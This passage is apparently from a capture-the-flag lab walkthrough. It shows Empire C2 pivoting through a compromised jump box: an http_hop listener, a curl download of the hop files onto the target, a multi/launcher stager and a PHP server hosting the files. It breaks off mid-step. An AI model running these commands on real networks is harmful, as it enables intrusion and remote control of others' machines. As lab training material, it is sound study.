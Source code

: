     firewall-cmd --zone=public --add-port 17000/tcp

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649026577975_image.png)


**HTTP_Hop**

    uselistener http_hop
    
    set Host 10.200.90.200 #jump box - initial compromise
    set Port 17000
    set RedirectListener CLIHTTP
    execute

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649024634824_image.png)


Zip and transfer files `/tmp/http_hop` to jump box target:


    zip -r hop.zip http_hop
![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649024871331_image.png)


download on target:

    curl 10.50.91.32/hop.zip -o hop.zip
    unzip hop.zip

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649024947490_image.png)

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649024973349_image.png)


**Answer the questions**

Bearing this in mind, get an agent back from the Git Server!

    No answer needed



## Task 29  Command and Control Git Server

**Create http_hop stager**

    usestager multi/launcher
    set Listener http_hop

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649025470372_image.png)


On jump box (200) setup a PHP Server to host http_hop files:

    php -S 0.0.0.0:18000 

Connect to `git-server` on `.150` and execute `usestager/multi/launcher`

jumpbox: 
